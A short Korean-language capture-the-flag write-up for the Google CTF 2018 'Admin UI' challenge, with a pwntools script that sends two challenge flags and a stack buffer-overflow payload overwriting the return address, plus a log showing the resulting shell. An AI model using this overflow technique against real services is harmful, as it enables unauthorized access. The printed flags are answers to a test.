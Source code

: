 간단한 BOF 취약점이다.

debug_shell이 있는데 쓸순 없으니까 그냥 RET만 여기로 옮겨주면 된다.

```python
# exploit.py
# for GoogleCTF2018 Beginner's Quest, Admin UI

from pwn import *

HOST = "mngmnt-iface.ctfcompetition.com"
PORT = 1337
r = remote(HOST, PORT)

def main () :
    r.recv(1024)
    r.sendline("1")
    r.sendline("CTF{I_luv_buggy_sOFtware}")
    r.sendline("CTF{Two_PasSworDz_Better_1_n4ht_k?}")
    r.sendline("A"*0x30+"B"*8+p64(0x41414227))
    r.interactive()

if __name__ == '__main__' :
    main()
```

> cragy0516@argos-edu:~/CTF/google2018$ python exploit.py 
>
> [+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
>
> [*] Switching to interactive mode
>
>  1) Service access
>
>  2) Read EULA/patch notes
>
>  3) Quit
>
> Please enter the backdoo^Wservice password:
>
> ! Two factor authentication required !
>
> Please enter secret secondary password:
>
> Authenticated
>
> Unknown command 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'BAA'
>
> $ quit
>
> Bye!
>
> $ ls -l
>
> total 124
>
> -rw-r--r-- 1 nobody nogroup     26 May 24 15:03 an0th3r_fl44444g_yo
>
> -rw-r--r-- 1 nobody nogroup     25 Jun 18 08:25 flag
>
> -rwxr-xr-x 1 nobody nogroup 111128 Jun 18 08:25 main
>
> drwxr-xr-x 2 nobody nogroup   4096 Jun 18 08:25 patchnotes
>
> $ cat an0th3r_fl44444g_yo